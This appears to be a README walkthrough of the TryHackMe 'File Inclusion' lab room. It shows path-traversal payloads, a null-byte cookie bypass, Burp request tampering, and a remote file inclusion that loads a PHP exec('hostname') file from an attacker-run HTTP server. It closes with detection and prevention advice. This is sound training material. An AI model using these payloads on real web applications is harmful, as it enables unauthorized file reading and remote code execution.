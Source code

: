 # 🛡️ TryHackMe - File Inclusion Walkthrough

This walkthrough documents my approach and solutions to the File Inclusion room on TryHackMe:  
🔗 https://tryhackme.com/room/fileinc

---

## 🧠 Overview

The room introduces concepts around **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** vulnerabilities. It emphasizes techniques like input tampering, bypassing filters, and understanding how web applications handle file loading mechanisms.

🖥️ Make sure the attached VM is running and visit:  
http://10.10.68.207/challenges/index.php

---

## 🔍 General LFI Testing Methodology

1. 🔎 Find entry points in GET, POST, COOKIE, or HTTP header values.  
2. ✅ Test with valid inputs to understand baseline behavior.  
3. ⚠️ Send invalid/suspicious inputs (e.g. `../../../../etc/passwd`) to probe for weaknesses.  
4. 🧰 Use external tools like Burp Suite to inspect and modify raw requests.  
5. 🚨 Look for error messages or behavior changes that reveal file paths or vulnerabilities.  
6. 🛠️ Understand and bypass filters, like NULL byte injection (`%00`) or filename extension restrictions.

---

## 🔓 Challenge 1: Basic LFI via POST Parameter

🗨️ The page says: _"The input form is broken! You need to send POST request with file parameter!"_

![Screenshot 369](./Screenshot%20(369).png)

### 💡 What I did:
- Inspected the page and modified the form to use POST:  
  `<form action="#" method="POST">`  
  ![Screenshot 370](./Screenshot%20(370).png)  
  ![Screenshot 371](./Screenshot%20(371).png)  
- Submitted the value: `../../../../etc/flag1`  
  ![Screenshot 372](./Screenshot%20(372).png)  
- **Flag1 printed on screen**  
  ![Screenshot 373](./Screenshot%20(373).png)

---

## 🍪 Challenge 2: Cookie-Based LFI + NULL Byte Injection

🗨️ Initial screen says: _"Welcome Guest! Only admins can access this page!"_  
![Screenshot 374](./Screenshot%20(374).png)

### 💡 What I did:
- Opened browser dev tools → Storage tab → Cookies  
  ![Screenshot 375](./Screenshot%20(375).png)  
- Changed cookie value from `Guest` → `Admin`  
  ![Screenshot 376](./Screenshot%20(376).png)  
- Page changed but included a file called `Admin`  
  ![Screenshot 377](./Screenshot%20(377).png)  
- Changed the cookie to: `../../../../etc/flag2%00`  
  ![Screenshot 379](./Screenshot%20(379).png)  
- **Flag2 displayed.**

---

## 🔁 Challenge 3: POST-Based LFI with Filtering Bypass

📝 Page looks like a normal input form.  
![Screenshot 380](./Screenshot%20(380).png)

### 💡 What I tried:
- Changed form to POST (like Challenge 1)  
  ![Screenshot 381](./Screenshot%20(381).png)
- Tried path traversal with and without NULL byte: `../../../../etc/flag3%00`  
  ![Screenshot 382](./Screenshot%20(382).png)  
  ![Screenshot 383](./Screenshot%20(383).png)  
- Didn’t work via browser, so I used **Burp Suite Interceptor**  
  ![Screenshot 384](./Screenshot%20(384).png)  
- Modified request method to POST and resent payload  
  ![Screenshot 385](./Screenshot%20(385).png)  
- **Burp Suite bypassed the include logic and revealed Flag3.**

---

## 🥇 Challenge 4: Remote File Inclusion (RFI)
----------------------------------------
- Navigated to: http://10.10.68.207/playground.php
- Setup:
    - Ran local Python server: python3 -m http.server
    - Created host.txt:
        <?php
        print exec('hostname');
        ?>
![Screenshot 366](./Screenshot%20(386).png)
    - Loaded via browser:
      http://10.10.68.207/playground.php?file=http://10.10.44.82:8000/host.txt
![Screenshot 366](./Screenshot%20(387).png)
    - Flag printed to screen via RFI.
![Screenshot 366](./Screenshot%20(388).png)

🛡️ Detection, Mitigation, and Prevention of File Inclusion
--------------------------------------------------------

🧭 Detection:
- Monitor for suspicious file access patterns (e.g. ../, .php, remote URLs).
- Look for anomalous requests with odd user-agent or cookies.
- Set up WAF rules to catch common LFI/RFI payloads.

🛠️ Mitigation:
- Never include files based on user input.
- Whitelist allowed filenames or use strict mappings instead.
- Disable remote URL includes in PHP (allow_url_include = Off).

🔐 Prevention:
- Use secure coding practices—avoid include($_GET['file']) or similar.
- Sanitize all input using allowlists and strict validation.
- Keep error messages generic to avoid exposing paths.

Flags Captured
--------------
✅ Flag1  
✅ Flag2  
✅ Flag3  
✅ Final RFI Challenge Flag
